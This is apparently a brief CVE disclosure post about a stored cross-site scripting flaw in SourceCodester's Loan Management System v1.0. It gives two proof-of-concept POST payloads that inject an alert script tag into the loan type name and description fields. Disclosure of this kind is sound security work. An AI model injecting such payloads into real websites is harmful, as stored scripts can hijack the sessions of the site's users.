 ```yaml
---
layout: post
title: 
tags: [CVE, XSS]
description: "Stored Cross-Site Scripting (XSS) vulnerability in 'loan_type.php' of SourceCodesters Loan Management System v1.0."
---
```


## Stored Cross-Site Scripting (XSS)

Stored Cross-Site Scripting (XSS) vulnerability in 'loan_type.php' of SourceCodesters Loan Management System v1.0.

Vulnerable path : http://localhost/loan/index.php?page=loan_type

### Exploitation :

#### Manually

```
POST - http://localhost/loan/index.php?page=loan_type (type_name) - <script>alert("Liodeus")</script>
```

```
POST - http://192.168.1.56/loan/index.php?page=loan_type (description) - <script>alert("Liodeus")</script>
```

*More informations to come*